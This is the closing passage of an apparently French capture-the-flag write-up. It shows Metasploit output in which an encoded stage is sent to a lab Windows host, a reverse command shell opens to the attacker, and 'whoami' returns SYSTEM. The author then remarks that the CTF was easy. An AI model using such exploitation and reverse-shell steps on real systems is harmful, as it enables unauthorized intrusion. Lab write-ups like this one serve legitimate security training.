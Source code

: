 ```plain
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.1.1.15
[*] Command shell session 1 opened (10.254.0.29:443 -> 10.1.1.15:64657) at 2019-02-23 16:20:22 +0100

C:\Windows\system32>whoami
nt authority\system
```

Zeta
----

C'est tout pour ce CTF qui était très facile :)

*Published November 17 2020 at 13:55*
